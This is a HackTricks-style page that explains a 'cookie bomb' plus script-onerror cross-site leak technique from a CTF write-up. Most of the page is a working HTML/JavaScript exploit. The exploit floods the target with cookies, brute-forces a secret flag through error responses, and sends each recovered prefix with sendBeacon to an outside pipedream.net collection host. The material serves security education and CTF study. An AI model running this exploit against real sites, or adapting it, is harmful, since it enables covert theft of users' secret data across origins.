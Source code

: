 # Cookie Bomb + Onerror XS Leak

{{#include ../../banners/hacktricks-training.md}}

The following **script** taken from [**here**](https://blog.huli.tw/2022/05/05/en/angstrom-ctf-2022-writeup-en/) is exploiting a functionality that allows the user to **insert any amount of cookies**, and then loading a file as a script knowing that the true response will be larger than the false one and then. If successful, the response is a redirect with a resulting URL longer, **too large to handle by the server so return an error http status code**. If the search fails, nothing will happen because URL is short.

```html
<>'";
<form action="https://sustenance.web.actf.co/s" method="POST">
  <input id="f" /><input name="search" value="a" />
</form>
<script>
  const $ = document.querySelector.bind(document)
  const sleep = (ms) => new Promise((r) => setTimeout(r, ms))
  let i = 0
  const stuff = async (len = 3500) => {
    let name = Math.random()
    $("form").target = name
    let w = window.open("", name)
    $("#f").value = "_".repeat(len)
    $("#f").name = i++
    $("form").submit()
    await sleep(100)
  }
  const isError = async (url) => {
    return new Promise((r) => {
      let script = document.createElement("script")
      script.src = url
      script.onload = () => r(false)
      script.onerror = () => r(true)
      document.head.appendChild(script)
    })
  }
  const search = (query) => {
    return isError(
      "https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query)
    )
  }
  const alphabet =
    "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ"
  const url = "//en4u1nbmyeahu.x.pipedream.net/"
  let known = "actf{"
  window.onload = async () => {
    navigator.sendBeacon(url + "?load")
    await Promise.all([stuff(), stuff(), stuff(), stuff()])
    await stuff(1600)
    navigator.sendBeacon(url + "?go")
    while (true) {
      for (let c of alphabet) {
        let query = known + c
        if (await search(query)) {
          navigator.sendBeacon(url, query)
          known += c
          break
        }
      }
    }
  }
</script>
```

{{#include ../../banners/hacktricks-training.md}}



